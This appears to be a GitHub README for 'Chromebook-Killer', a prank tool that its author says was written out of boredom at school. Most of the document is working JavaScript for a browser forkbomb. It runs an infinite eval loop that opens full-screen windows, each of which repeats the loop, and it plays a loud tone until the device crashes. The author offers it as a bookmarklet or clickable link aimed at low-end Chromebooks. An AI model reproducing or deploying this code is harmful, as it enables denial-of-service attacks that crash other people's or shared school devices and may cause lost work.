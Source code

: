 # 🔥 Chromebook-Killer
*"I was bored in school. Nothing new there."*

The code below is a a modified forkbomb that works in HTML and JavaScript. Keep in mind that this is targeted towards more cheap, low end Chromebooks, but I havent tested it on more powerful devices.

#### 🚀 Features
* Lags the Chromebook by spamming new browser windows.
* Plays a loud beeping noise until chromebook crashes (scary ;-;).
* On each new window it creates, it adds an array that will crash that new window.
* Can be used as a bookmarklet or clickable link.

#### 💾 Code
```js
p = `var a=Math.floor(10000*Math.random()+1),
  b=window.open('_blank','Lag'+a,'height=${screen.height},width=${screen.width}');
  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);
  b.document.body.innerHTML='<script>for(;;){ ${p} }</script>'`;

for (;;) {
  eval(p);
}
```
